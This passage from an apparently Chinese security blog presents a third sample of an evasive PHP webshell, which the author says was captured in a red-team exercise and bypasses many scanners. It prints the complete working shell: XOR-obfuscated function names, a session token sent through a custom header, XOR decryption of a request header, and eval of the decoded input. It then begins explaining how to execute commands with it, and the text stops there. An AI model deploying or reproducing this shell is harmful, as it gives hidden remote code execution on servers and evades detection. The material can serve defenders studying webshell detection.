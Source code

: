 ![样例二成功执行命令.png](https://blog.zgsec.cn/usr/uploads/2023/08/2146327561.png)

### 12.3 样例三

这个免杀马是在近期某大型攻防演练中捕获到的，也是能过一众查杀引擎~
这个样例使用了异或+编解码转换+参数加解密回调+密钥协商的手法，成功规避了语义分析和正则匹配式，具有实战意义

这个WebShell和冰蝎马等具有相似性，各位师傅不妨可以看看原理：

```php
<?php
session_start();

function set_token($v,$t) {
	$r="";
	for ($x=0; $x<strlen($v);$x++) {
		if(($x+1)%strlen($t)!=0) {
			$r.=chr(ord(substr($v,$x,$x+1))^ord(substr($t,$x%strlen($t),($x+1) % strlen($t))));
		} else {
			$r.=chr(ord(substr($v,$x,$x+1))^ord(substr($t,$x%strlen($t),16)));
		}
	}
	return $r;
}

if (isset($_SERVER["HTTP_TOKEN"])) {
	$t=substr(md5(rand()),16);
	$_SESSION['token']=$t;
	header('Token:'.$_SESSION['token']);
} else {
	if(!isset($_SESSION['token'])) {
		return;
	}
	$v=$_SERVER['HTTP_X_CSRF_TOKEN'];
	$b='DQHNGW'^'&0;+qc';
	$b.= '_dec'.chr(111).'de';
	$v=$b($v."");
	
	class E {
		public function __construct($p) {
			$c=('ZSLQWR'^'82?4af')."_d"."eco".chr(108-8)."e";
			$e = $c($p);
			eval(null.$e."");
		}
	}
	@new E(set_token($v, $_SESSION['token']));
}
```

这个WebShell要如何执行命令呢？共需要三步，请看我细细分析~

首先，这个函数定义了一个函数 `set_token()` 和一个类 `class E`，但我们不着急看，我们先看PHP先执行的部分：
